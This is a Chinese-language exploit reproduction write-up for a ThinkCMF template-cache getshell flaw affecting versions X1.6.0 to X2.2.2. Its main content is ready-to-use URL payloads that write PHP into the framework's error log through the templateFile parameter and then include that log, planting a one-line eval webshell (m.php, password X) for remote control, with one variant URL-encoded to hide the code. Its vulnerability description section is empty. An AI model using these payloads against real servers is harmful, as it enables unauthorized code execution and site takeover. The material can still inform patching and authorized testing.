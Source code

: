 ThinkCMF 缓存Getshell
=====================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0ThinkCMF X2.1.0ThinkCMF X2.2.0ThinkCMF X2.2.1ThinkCMF X2.2.2

三、复现过程
------------

### 常规操作

    http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

![](./resource/ThinkCMF缓存Getshell/media/rId25.png)

利用缓存文件getshell
--------------------

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY\_MM\_DD.log，如当前日期为2019年12月12日，日志文件为19\_12\_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log

**payload 一**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E

-   然后请求

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

-   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E

-   然后菜刀链接（密码也是x）

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
